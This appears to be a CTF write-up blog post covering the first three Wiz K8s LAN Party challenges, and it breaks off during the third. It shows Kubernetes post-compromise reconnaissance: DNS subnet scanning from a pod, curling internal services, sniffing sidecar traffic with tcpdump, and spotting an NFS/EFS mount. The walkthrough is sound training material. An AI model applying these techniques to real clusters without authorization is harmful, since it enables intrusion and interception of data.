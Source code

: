 ```yaml
---
author: "chxmxii_"
date: "2023-08-21"
tags:
  - Kubernetes
  - CTF
type:
  - post
  - posts
title: "K8SLANPARTY - CHALLENGES"
weight: 10
series:
  - "Hugo 101"
---
```

![](/files/k8slan.png#center)

---
# CHALLENGE 1;
  ## Challenge Description: DNSing with the Stars

  + You've gained shell access to a compromised Kubernetes pod and your next objective is to further compromise internal services. As a warm-up, utilize DNS scanning to uncover hidden internal services and obtain the flag. We've provided `dnscan` to facilitate this process for upcoming challenges.

  + All flags in this challenge follow the format: `wiz_k8s_lan_party{*}`

  ### Solution;

+ Given the task at hand, my initial approach was to inspect the environment variables, a tactic that proved fruitful.

  ```shell 
  player@wiz-k8s-lan-party:~$ printenv | grep kubernetes -i
  KUBERNETES_SERVICE_PORT_HTTPS=443
  KUBERNETES_SERVICE_PORT=443
  KUBERNETES_PORT_443_TCP=tcp://10.100.0.1:443
  KUBERNETES_PORT_443_TCP_PROTO=tcp
  KUBERNETES_PORT_443_TCP_ADDR=10.100.0.1
  KUBERNETES_SERVICE_HOST=10.100.0.1
  KUBERNETES_PORT=tcp://10.100.0.1:443
  KUBERNETES_PORT_443_TCP_PORT=443

  player@wiz-k8s-lan-party:~$ dnscan -subnet 10.100.0.1/16 > file

  player@wiz-k8s-lan-party:~$ cat file
  10.100.136.254 getflag-service.k8s-lan-party.svc.cluster.local.
  10.100.136.254 -> getflag-service.k8s-lan-party.svc.cluster.local

  player@wiz-k8s-lan-party:~$ curl 10.100.136.254
  wiz_k8s_lan_party{between-thousands-of-ips-you-found-your-northern-star}
  ```
---
# CHALLENGE 2;
  ## Challenge Description: HELLO?

  + Sometimes, it feels like we're alone, but we must stay vigilant against hidden sidecars leaking sensitive information.

### Solution

+ As mentioned earlier, we were alerted about the possibility of sidecar containers. My first action was to rerun the `dnscan` command, leading me to discover the `reporting-service.k8s-lan-party.svc.cluster.local` service. This container seemed to be communicating with `istio-envoy`, a component of a service mesh. I then tried to listen to the traffic between the containers using `tcpdump -A`.

  ```shell
  player@wiz-k8s-lan-party:~$ curl -kv reporting-service.k8s-lan-party.svc.cluster.local
  *   Trying 10.100.171.123:80...
  * Connected to reporting-service.k8s-lan-party.svc.cluster.local (10.100.171.123) port 80 (#0)
  > GET / HTTP/1.1
  > Host: reporting-service.k8s-lan-party.svc.cluster.local
  > User-Agent: curl/7.81.0
  > Accept: */*
  > 
  * Mark bundle as not supporting multiuse
  < HTTP/1.1 200 OK
  < server: istio-envoy
  < date: Tue, 26 Mar 2024 10:28:01 GMT
  < content-type: text/plain
  < x-envoy-upstream-service-time: 1
  < x-envoy-decorator-operation: :0/*
  < transfer-encoding: chunked
  < 
  * Connection #0 to host reporting-service.k8s-lan-party.svc.cluster.local left intact

  player@wiz-k8s-lan-party:~$ tcpdump -A | grep wiz
  tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
  listening on ns-892853, link-type EN10MB (Ethernet), snapshot length 262144 bytes
  wiz_k8s_lan_party{good-crime-comes-with-a-partner-in-a-sidecar}
  ```
---
# CHALLENGE 3;
  ## Challenge Description: Exposed File Share

  + The targeted big corp utilizes outdated, yet cloud-supported technology for data storage in production. But oh my, this technology was introduced in an era when access control was only network-based 🤦‍️.

### Solution;

"access control was only network-based" is a big hint that we are talking about nfs here. lets check the df -hT command to see mounts in our system

```shell
player@wiz-k8s-lan-party:~$ df -hT
Filesystem                                         Type     Size  Used Avail Use% Mounted on
overlay                                            overlay  300G   23G  278G   8% /
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ nfs4     8.0E     0  8.0E   0% /efs
tmpfs                                              tmpfs     60G   12K   60G   1% /var/run/secrets/kubernetes.io/serviceaccount
tmpfs                                              tmpfs     64M     0   64M   0% /dev/null
```

we can we have a fs system from this endpoint mounted on /efs, though i found the flag, but the challenge doesn't end here as we don't have the permission to read that file

